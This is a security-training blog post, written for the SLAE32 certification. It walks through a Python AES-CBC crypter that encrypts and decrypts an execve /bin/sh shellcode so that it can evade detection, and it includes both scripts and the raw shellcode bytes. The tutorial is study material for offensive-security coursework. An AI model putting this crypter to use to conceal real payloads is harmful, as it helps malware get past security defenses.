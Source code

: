 ```yaml
---
layout: single
title: "SLAE: Custom Shellcode Crypter"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-25
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_7)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

Our 7th and final assignment for SLAE32 we will create a custom shellcode crypter.

Crypters are used to encrypt malware for the purpose of security evasion. It allows malware to masquerade as harmless code until such time it is executed.

The encryption method I have chosen is "Rijndael" (After the designers Vincent Rijmen and Joan Daemen) AKA Advanced Encryption Standard.

Advanced cryptography is a bit beyond my current skill level, however I will attempt to provide a low-level explanation.

AES is a form of symmetric encryption; symmetric meaning the same key used to encrypt is used to decrypt. To contrast this, RSA (typically used for remote connections) is asymmetric, using a public (server) and private (client) key. So in RSA, if you were to encrypt with the public key, the private key would be required to decrypt and vice versa. However with AES the same key that was used in encryption will need to be fed for decryption.

AES256 encrypts in 14 rounds, with 1.1 x 10^77 possible combinations.
Rather than encrypting a string, AES takes the bytes and lays them out in columns within a 4x4 grid.

![grid](/assets/images/SLAE_7/1.JPG) source [computerphile](https://www.youtube.com/watch?v=O4xNJsjtN6E)

It then works through a varying number of rounds where it will xor information against part of the key, substitute bytes and finally permute until we have an incredibly tough cypher.

![AES_round](/assets/images/SLAE_7/2.JPG)

Now that I have finished procrastinating, it is time to look at writing our own.
Luckily for me, Python has modules that can aid this task.
I read up on what is required at the following link: [https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/](https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/)


```
from Crypto.Cipher import AES
import sys

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80") # must be divisible by 16

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes

if len(key)!=16:
	print("[!]key MUST be 16 bytes\n[!]Exiting")
	sys.exit()
if len(iv)!=16:
	print("[!]iv MUST be 16 bytes\n[!]Exiting")
	sys.exit()
cipher = AES.new(key, AES.MODE_CBC, iv)


if len(shellcode)%16 !=0:
	print("[!]shellcode not divisible by 16, padding")
	remainder = len(shellcode)%16 #figure out how many extra chars there are stopping it being divisible by 16
	padnumber = 16 - remainder #figure out how many characters we need to make up the difference
	shellcode = shellcode + ('1' * padnumber) #add exactly that many chars to the end of shellcode, thus making it divisible by 16

print("Padded by "+str(padnumber))
encrypt = cipher.encrypt(shellcode) # use cypher to encrypt ourshellcode against specified key and iv
encoded = ""
for x in bytearray(encrypt): #process code to give us shellcode as we have done in previous assignments
	  encoded += '\\x'
	  encrypt = '%02x' % x
	  encoded += encrypt

print("Encrypted shellcode: "+encoded)
```
Running our code as below gives us our encrypted string

![encrypted](/assets/images/SLAE_7/3.JPG)

Taking the encrypted string and placing it in our decoder before running it yields the exact same shellcode we originally placed in our encrypter script - thus, the string has been decrypted.

```
from Crypto.Cipher import AES
 
shellcode = ("\xc9\xc9\x0f\xaf\xf8\x6c\x82\x69\xa6\x95\x25\x1e\xdd\x5e\xbc\x79\xd0\xec\xdb\xa5\x81\xa0\xfe\x55\x56\x6d\xe8\x7a\xed\x08\xc9\x99")

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes
 
cipher = AES.new(key, AES.MODE_CBC, iv)
padnumber=int("7") 
decrypt = cipher.decrypt(shellcode)
encoded = ""     

for x in bytearray(decrypt):
	  encoded += '\\x'
	  dec = '%02x' % x#(x & 0xff)
	  encoded += dec
 
print encoded[0:-padnumber*4]
```

![decrypted](/assets/images/SLAE_7/4.JPG)

